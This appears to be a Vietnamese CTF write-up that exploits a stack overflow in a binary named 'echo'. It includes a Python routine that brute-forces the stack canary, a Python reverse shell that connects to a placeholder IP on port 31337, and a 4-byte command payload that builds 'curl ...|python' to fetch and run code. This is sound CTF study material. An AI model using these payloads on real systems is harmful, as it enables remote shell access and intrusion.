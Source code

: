 Đề cho t file **echo**</br>
![image](https://user-images.githubusercontent.com/23306492/40347441-7fa99dfe-5dca-11e8-9556-106b67a58c2d.png)</br>
 **enable** NX, canary</br>
![image](https://user-images.githubusercontent.com/23306492/40347475-a6df330c-5dca-11e8-9b4f-5e6e69d98fb8.png)</br>
Chương trình có 2 function chính : `fun()` nhập số luckynumber và `echo` nhâp  echo</br>
![image](https://user-images.githubusercontent.com/23306492/40347624-223ecf3a-5dcb-11e8-89f5-c7f42d267a8e.png)</br>
Trong hàm fun() `luckynumber = 0x0804B098`</br>
![image](https://user-images.githubusercontent.com/23306492/40347543-e06027f8-5dca-11e8-9330-e32dedb0bfdb.png)</br>
Trong hàm `echo()` </br> có lỗi stack overflow `n = recv(fd, &buf, 0x11Cu, 0);`</br>
![image](https://user-images.githubusercontent.com/23306492/40347603-0f1c8438-5dcb-11e8-829c-7cc099e316e9.png)</br>
Trước tiên thì ta cần `leak canary` sử dụng brute force. Tương tự như write up **codegate-prequels 2017 babypwn** [link](https://github.com/VulnHub/ctf-writeups/blob/master/2017/codegate-prequels/babypwn.md)
```
def leak_canary():
	canary = ""
	canary_offset = 0x100
	guess = 0x0
	buf = ""
	buf += "A" * canary_offset
	buf += canary
	while len(canary) < 4:
		while guess != 0xff:
			try:
				r = remote("localhost",12345)
				context.log_level = "critical"
				r.recvuntil("number: ")
				r.sendline(str(12345))
				r.recvuntil("Enter what you want to echo: ")
				r.send(buf + chr(guess))
				r.recvuntil("Bye bye!")
				print "Guessed correct byte:", format(guess, '02x')
				canary += chr(guess)
				buf += chr(guess)
				guess = 0x0
				r.close()
				break
			except EOFError,e:
				guess += 1
	return canary
```
![image](https://user-images.githubusercontent.com/23306492/40347714-6a405a24-5dcb-11e8-81db-a46cf987896a.png)</br>
Với bài này thì ta sử dụng system 4 byte để exploit. Tương tự như bài [babyfirst-revenge-v2 hitcon 2017](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py) và  [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)</br>
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("xxx.xxx.xxx.xxx",31337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
```
payload = [
# generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',
    # generate "curl xxx.xxx.xxx.xxx|python;"
    '>\;\\', 
    '>on\\', 
    '>th\\', 
    '>py\\', 
    '>\|\\', 
    '>xx\\', 
    '>x\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
    # got shell
    'sh x', 
    'sh g', 
]
```
[PAYLOAD](https://github.com/k4k4/SEATHON/blob/master/echo/echo.py)</br>
![echo](https://user-images.githubusercontent.com/23306492/40348447-f1fff918-5dcd-11e8-87e3-a77bbd71d930.png)
